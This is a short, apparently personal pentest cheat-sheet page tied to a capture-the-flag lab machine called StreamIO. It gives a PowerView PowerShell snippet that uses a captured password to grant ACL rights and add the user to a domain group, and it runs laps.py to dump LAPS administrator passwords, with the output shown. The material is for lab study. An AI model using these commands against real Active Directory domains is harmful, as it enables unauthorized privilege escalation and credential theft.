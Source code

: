 ### Assign user to a group
```powershell
Import-Module ./PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\\JDgodd"

Add-DomainGroupMember -Identity 'Core Staff' -Members 'streamio\\JDgodd' -Credential $Cred

net group 'Core Staff'
```
Examples:
[[StreamIO#dc6ecc]]

### ReadLAPSPassword
We can use the utility laps.py to read LAPS passwords:
```bash
python3 laps.py -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb
LAPS Dumper - Running at 07-07-2022 13:57:05
DC &V@%DQ-wEwQ97A
```
[[StreamIO#^2cc182]]